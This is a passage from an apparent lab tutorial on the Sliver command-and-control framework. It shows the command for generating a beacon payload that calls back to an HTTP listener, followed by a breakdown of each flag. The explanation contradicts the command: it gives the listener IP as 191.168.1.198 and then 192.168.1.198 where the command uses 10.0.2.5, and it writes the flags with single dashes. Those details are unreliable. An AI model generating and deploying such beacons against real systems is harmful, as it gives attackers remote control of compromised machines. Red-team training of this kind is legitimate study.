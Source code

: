 ![Untitled](Screenshots/1-C2Framework/image43.webp)

</aside>

## Generate a Beacon

Generate a beacon payload with the command below.

```powershell
generate beacon --http 10.0.2.5 --save .
```

Here's what each part of the command does:

- **`generate beacon`**: This part of the command instructs the Sliver C2 framework to generate a beacon payload. A beacon is a piece of code or payload that is designed to periodically check in with a C2 server (in this case, an HTTP listener) to receive commands or instructions.
- **`-http 191.168.1.198`**: This option specifies the HTTP listener's IP address (192.168.1.198) that the generated beacon payload will communicate with. This means that the beacon payload will send its data and receive commands via HTTP requests to this IP address.
- **`-save .`**: This option tells Sliver to save the generated payload in the current directory. The **`.`** represents the current directory. This allows you to specify where the generated payload file should be saved on your local system.

It will take several minutes to create the payload. Be patient. When completed, the beacon will have a randomized two word name. 

<aside>
💡

![Untitled](Screenshots/1-C2Framework/image44.webp)

